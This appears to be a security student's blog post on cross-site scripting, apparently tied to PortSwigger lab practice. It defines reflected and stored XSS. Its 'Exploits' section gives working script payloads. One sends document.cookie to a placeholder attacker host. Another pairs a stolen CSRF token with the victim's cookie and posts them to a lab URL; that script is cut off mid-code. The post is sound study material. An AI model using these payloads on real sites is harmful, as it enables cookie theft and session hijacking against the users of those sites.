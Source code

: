 ```yaml
---
layout: blog
type: blog
title: Web Application Security - Cross-Site Scripting
permalink: blog/web-xss
# All dates must be YYYY-MM-DD format!
date: 2021-11-15
labels:
  - reflected xss
  - stored xss
  - xss context
---
```


# Portswigger Cheat sheet

Note: regularly updated
[Cross-Site Scripting Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

XSS is possible in Javascript, VBScript, Flash and CSS

# Reflected XSS

Reflected XSS is the simplest variety of cross-site scripting. It arises when an application receives data in an HTTP request and includes that data within the immediate response in an unsafe way. 

Note: This can be checked for if it is noticed that http parameter data shows on the page.

# Stored XSS

Stored XSS (also known as persistent or second-order XSS) arises when an application receives data from an untrusted source and includes that data within its later HTTP responses in an unsafe way. 

## Exploits

- Stealing cookies

```javasript
<script>
fetch('<your-site>', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
using CSRF
```javascript
<script>
window.onload = function exploit(){
	csrf =  document.getElementsByName("csrf")[0].value;
	
	postData = "csrf="+csrf+"&postId=7&comment="+document.cookie+"&name=pwned&email=nullcell@hacker.com&website=";
	Url='https://web-security-academy.net/post/comment';
	
	otherParam={
		body:postData,
		method:"POST",
	};

```
